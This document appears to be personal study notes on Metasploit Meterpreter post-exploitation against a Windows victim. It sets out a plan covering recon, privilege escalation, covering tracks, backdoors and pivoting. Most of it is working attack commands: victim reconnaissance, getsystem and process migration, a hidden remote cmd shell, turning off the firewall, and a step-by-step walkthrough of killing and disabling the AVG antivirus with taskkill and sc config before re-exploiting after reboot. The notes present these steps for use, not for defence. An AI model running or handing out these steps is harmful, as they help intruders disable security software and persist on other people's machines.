 # Meterpreter & Post-Exploitation

1. Understanding the victim better (recon)
2. Privilege Escalation (Exploitation)
3. Deleting Logs and Killing Monitoring Software (Post, covering tracks)
4. Collecting Data, Executing programs etc. (recon)
5. Backdoors and Rootkits (post)
6. Using victim as a pivot to hack deeper into the network (exploitation)

### Meterpreter Commands -  post recon

- sysinfo
- getuid
- getpid (current process id)
- ps (see all process)
- idletime (check if user is using the computer by checking their idletime)
- run checkvm (check if the sys is on vm or baremetal, post mt script)
- run get_env (check what environment)
- routes
- ifconfig
- run get_application_list
- run scraper (big info dump to your pc @ msf/logs/scripts/scraper/<IP><datecreated>)
- run winenum (Also info gathering but more on system, like firewall config)

- run (to see what mt posts script you can run)

### 2.PE
example: minishare program has an exploit in metasploit (search it in metasploit)

- getuid
- getsystem -h to learn how to use
- rev2self to revert
- migrate <pid> (after getting privilege, you can migrate to any processes)

### 3.Detecting Logs and shutdown AV

- execute -f cmd.exe -c -H (to get a win cmd, -c to channelize it, -H to hidden from view, remote computer wont come up cmd)
  - interact 1 (talk to channel 1) [Inside win cmd]
  - netsh firewall show opmode (check firewall situation) [Inside win cmd]
  - netsh firewall set opmode mode= DISABLE (disable firewall)
  - netsh firewall show opmode to check again
 
- run killav (kill the antivirus) might not always work
- Lets do it Manually in the target machine
  - now lets do it with a cmd in the machine `execute -f cmd.exe -c -H` `interact 2` (this time it will be on channel 2)
  - `tasklist` to see all ask, avg is what we want to look for which is antivirus
  - `tasklist /SVC` to catergorize them by respondence and look at what is the root of all avg services, /SVC being 'run it along with services hosted by them
  - `tasklist /SVC | find /I "avg"` to see service further down the service tree (all of the service with "avg"), /I being non case sensitive
  - `taskkill /?` to see how to use taskkill, `/?` is like `-h` in linux
  - after that we run `taskkill /F /IM "avg*"`, /F being force, /IM is the Image Name or the process/executable that you want to kill, and we want to kill everything starting with avg with`*` wildcard indicating behind it
  - Nice, let's `tasklist /SVC | find /I "avg"` to see what is still there. And the kill didn't work, it killed some but not the root program started those services again
  - `net stop <service>` to stop specific task, so `net stop avgwd`, and it says it cannot be stopped
  - lets see the attributes of these 2 services `sc queryex avgwd` & `sc queryex AVGIDSAgent`, `sc` is service config manager, `queryex` is query extended, meaning it show more info than `query`
  - It says 'Not stoppable and not pausable, but accepts shutdown', so we can disable it next time when reboot, it is just not stoppable after it booted up
  - `sc config avgwd start= disabled` & `sc config AVGIDSAgent start= disabled`, it should show something like `[SC] ChangeServiceConfig SUCCESS` so it is disabled and now we just need to reboot
- `exit` the win cmd, back to the meterpreter shell. Lets `reboot` the computer
- Let's `exploit` the system again to get back in after it reboot, and `execute -f cmd.exe -c -H` `interact 1` and `tasklist /SVC | find /I "avg"` and the root service isn't there!!!
- Now lets' finally kill the task `taskkill /F /IM "avg*"` and mess with the system!
